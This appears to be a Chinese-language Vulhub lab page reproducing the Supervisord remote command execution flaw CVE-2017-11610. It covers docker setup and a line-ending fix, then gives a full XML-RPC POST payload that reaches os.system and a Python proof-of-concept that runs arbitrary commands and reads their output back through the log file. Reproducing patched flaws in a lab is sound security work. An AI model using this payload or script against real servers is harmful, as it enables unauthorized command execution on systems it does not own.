




Supervisord 远程命令执行漏洞 CVE-2017-11610¶
漏洞描述¶
Supervisord是一款Python开发，用于管理后台应用（服务）的工具，其角色类似于Linux自带的Systemd。
参考链接：
- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b
环境搭建¶
Vulhub执行以下命令启动环境：
docker-compose build
docker-compose up -d
环境启动后，访问http://your-ip:9001即可查看Supervisord的页面。
**启动时遇到错误exec user process caused "no such file or directory"的解决方法 **
可能遇到如下错误：

错误原因：
docker-entrypoint.sh中最后一行的结束符成了\r\n 导致Docker镜像中的Linux Shell脚本文件无法执行。Linux/Mac的结束符是\n，所以Shell解释器会将脚本文件中的\r作为命令行的一部分来执行。这就是出现 “no such file or directory” 的原因。
解决方式：
通过dos2unix docker-entrypoint.sh命令将其转换成为unix格式文件。
漏洞复现¶
直接执行任意命令：
POST /RPC2 HTTP/1.1
Host: your-ip:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213
<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/awesome_poc</string>
</param>
</params>
</methodCall>

命令touch /tmp/awesome_poc执行成功：

关于直接回显的POC¶
@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。
写了个简单的POC： poc.py，直接贴出来吧：
#!/usr/bin/env python3
import xmlrpc.client
import sys
target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
old = getattr(proxy, 'supervisor.readLog')(0,0)
logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
result = getattr(proxy, 'supervisor.readLog')(0,0)
print(result[len(old):])
使用Python3执行并获取结果：./poc.py "http://your-ip:9001/RPC2" "command"：
